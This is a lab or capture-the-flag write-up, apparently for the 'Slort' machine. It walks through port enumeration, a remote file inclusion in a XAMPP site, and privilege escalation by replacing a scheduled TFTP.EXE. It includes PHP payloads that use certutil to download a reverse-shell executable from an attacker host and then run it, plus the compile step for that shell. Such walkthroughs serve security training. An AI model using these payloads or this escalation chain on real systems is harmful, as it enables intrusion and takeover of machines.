


# Network Enumeration

```bash
PORT      STATE SERVICE
21/tcp    open  ftp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
4443/tcp  open  pharos
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
```

# Port Enumeration

## FTP 21

Can't login as anonymous


## Port 5040

Didn't get any response


## Port 7680

Connection refused



## Port 4443

This is a XAMPP Verion 7.4.6 index page.


## Port 8080

Same to Port 4443.


# Web Enumeration

## Port 8080


Found a site path.


## Port 4443


Find `/cgi-bin` but can't access.

## Deep-in discovery

### Port 4443


Navigate to port 4443 site path.


Shows the `page=main.php`, use `nc` to set a listener locally.


Can get the request from target. So now write the download php file for this target to get our reverse shell file.

### Step1. Use php to let target machine download our reverse shell exe file.

```php
<?php 
$exec = system('certutil.exe -urlcache -split -f "http://192.168.xxx.xxx/shell.exe" shell.exe', $val); 
?> 
```

### Step2. Generate a exe file to reverse shell.



Then compile c file to `.exe`.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/Slort]
└─$ x86_64-w64-mingw32-gcc reverse_c.c -o shell.exe -lws2_32
reverse_c.c: In function ‘main’:
reverse_c.c:18:66: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
   18 |     Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);
      |                                                                  ^
reverse_c.c:18:86: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
   18 |     Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);
      |         
```

### Step 3. Let target machine running this exe file.

```php
<?php 
$exec = system('s.exe', $val); 
?> 
```

### Step 4. Target Machine download the shell.exe.


### Step 5. Target machine running this file then we get the reverse shell.


Right now we get the rev shell.


# PE

## Information Collection

### Application permission


### Listening ports


### Find a folder on `C:\`

Check the `C:\` I can find a folder name of `Backup`.


Check the details.There are three things here.


The backup.txt file is a log.


The `info.txt` file let us know  the TFTP.EXE file will running every 5 mins.


So try to replace this exe file.


Wait for script running. Get administrator shell.


